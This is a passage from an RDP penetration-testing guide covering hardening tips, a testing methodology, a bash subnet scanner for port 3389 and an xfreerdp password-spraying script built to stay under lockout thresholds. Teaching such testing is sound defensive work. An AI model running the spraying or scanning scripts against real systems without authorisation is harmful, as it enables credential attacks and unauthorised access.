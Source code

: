    * Registry path: `HKLM\System\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Protocols`
7. **Implement Multi-Factor Authentication**
   * Adds an additional layer of security
   * Consider solutions like Duo Security, Azure MFA, etc.

### RDP Penetration Testing Methodology

When testing RDP services, follow these steps:

1. **Discovery**: Identify systems with RDP enabled
2. **Enumeration**: Determine RDP version and security settings
3. **Authentication Testing**: Test for weak credentials and password policies
4. **Security Configuration Assessment**: Check NLA, encryption level, etc.
5. **Vulnerability Testing**: Test for known RDP vulnerabilities
6. **Post-Authentication Testing**: Attempt session hijacking, escalation, etc.
7. **Reporting**: Document findings and suggest mitigation measures

### Practical Testing Scripts

#### Automated RDP Scanning Script

```bash
#!/bin/bash
# Simple RDP scanner
for ip in $(seq 1 254); do
    host="192.168.1.$ip"
    (nmap -p 3389 -T4 --open $host > /dev/null && echo "RDP open on $host") &
done
wait
```

#### Password Spraying Wrapper

```bash
#!/bin/bash
# RDP password spraying with delays to avoid lockout
TARGET=$1
USERLIST=$2
PASSWORD=$3
DELAY=$4  # Seconds between attempts

for user in $(cat $USERLIST); do
    echo "Trying user: $user"
    xfreerdp /v:$TARGET /u:$user /p:$PASSWORD /cert-ignore +auth-only 2>&1 | grep -v "CERTIFICATE"
    sleep $DELAY
done
```

### RDP Client Security Considerations

When using RDP clients during penetration testing, consider:

1. **Clipboard Sharing**: Disable if not needed to prevent data leakage
2. **Drive Redirection**: Disable to prevent accidental file exposure
3. **Client-Side Vulnerabilities**: Keep RDP clients updated
4. **Session Recording**: Consider recording sessions for documentation
5. **Network Isolation**: Use dedicated networks for penetration testing

By understanding RDP services and their security implications, penetration testers can effectively identify vulnerabilities and suggest appropriate security improvements for remote access infrastructure.
